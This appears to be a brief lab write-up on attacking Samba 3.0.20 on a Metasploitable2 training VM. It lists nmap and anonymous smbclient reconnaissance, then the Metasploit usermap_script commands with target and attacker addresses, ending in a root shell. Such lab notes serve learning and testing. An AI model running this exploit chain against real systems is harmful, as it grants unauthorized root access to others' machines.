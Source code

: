 # Metasploitable2 – Samba 3.0.20 (Port 445)

**Date:** 2025-09-05  
**Target:** 192.168.56.101  
**Attacker:** Kali Linux 2025.2 (192.168.56.102)

---

## Recon
Nmap identified port 445 open running Samba 3.0.20:
```bash
nmap -sV -p 445 192.168.56.101

smbclient -L //192.168.56.101/ -N
smbclient //192.168.56.101/tmp -N

use exploit/multi/samba/usermap_script
set RHOST 192.168.56.101
set LHOST 192.168.56.102
exploit

whoami
root
uname -a
Linux metasploitable 2.6.24-16-server ...
